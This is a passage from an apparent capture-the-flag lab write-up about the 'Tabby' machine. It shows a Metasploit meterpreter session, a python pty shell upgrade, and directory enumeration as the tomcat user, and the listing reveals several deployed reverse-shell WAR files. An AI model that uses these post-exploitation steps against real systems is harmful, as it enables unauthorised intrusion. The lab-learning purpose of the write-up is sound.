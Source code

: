 ```text
[*] Stopping exploit/multi/handler
whoami
[*] exec: whoami

zweilos
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter >
```

setting `stty raw -echo` broke my nc shell, so I switched to msfconsole \(I think I may have had this problem with zsh before, will have to try with bash and see if it works properly\)

## Road to User

### Further enumeration

```text
meterpreter > shell
Process 8691 created.
Channel 3 created.
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ ls -la
ls -la
total 20
drwxr-xr-x  5 root   root   4096 Oct 12 15:44 .
drwxr-xr-x 46 root   root   4096 Jun 17 16:22 ..
lrwxrwxrwx  1 root   root     12 Feb 24  2020 conf -> /etc/tomcat9
drwxr-xr-x  2 tomcat tomcat 4096 Feb 24  2020 lib
lrwxrwxrwx  1 root   root     17 Feb 24  2020 logs -> ../../log/tomcat9
drwxr-xr-x  2 root   root   4096 Oct 12 15:44 policy
drwxrwxr-x 10 tomcat tomcat 4096 Oct 12 19:13 webapps
lrwxrwxrwx  1 root   root     19 Feb 24  2020 work -> ../../cache/tomcat9
tomcat@tabby:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
tomcat@tabby:/var/lib/tomcat9$ cd webapps
cd webapps
tomcat@tabby:/var/lib/tomcat9/webapps$ ls -la
ls -la
total 68
drwxrwxr-x 10 tomcat tomcat 4096 Oct 12 19:13 .
drwxr-xr-x  5 root   root   4096 Oct 12 15:44 ..
drwxr-x---  4 tomcat tomcat 4096 Oct 12 18:56 CRash
-rw-r-----  1 tomcat tomcat 1599 Oct 12 18:56 CRash.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 19:09 CRash2
-rw-r-----  1 tomcat tomcat 1084 Oct 12 19:09 CRash2.war
drwxr-xr-x  3 root   root   4096 May 19 23:09 ROOT
drwxr-x---  4 tomcat tomcat 4096 Oct 12 18:47 reev_shell
-rw-r-----  1 tomcat tomcat 1103 Oct 12 18:47 reev_shell.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 18:34 rev_shell
-rw-r-----  1 tomcat tomcat 1085 Oct 12 18:34 rev_shell.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 19:13 shell
-rw-r-----  1 tomcat tomcat 1085 Oct 12 19:13 shell.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 19:13 shell2
-rw-r-----  1 tomcat tomcat 1089 Oct 12 19:13 shell2.war
drwxr-x---  4 tomcat tomcat 4096 Oct 12 17:24 shell_m
-rw-r-----  1 tomcat tomcat 1094 Oct 12 17:24 shell_m.war
```
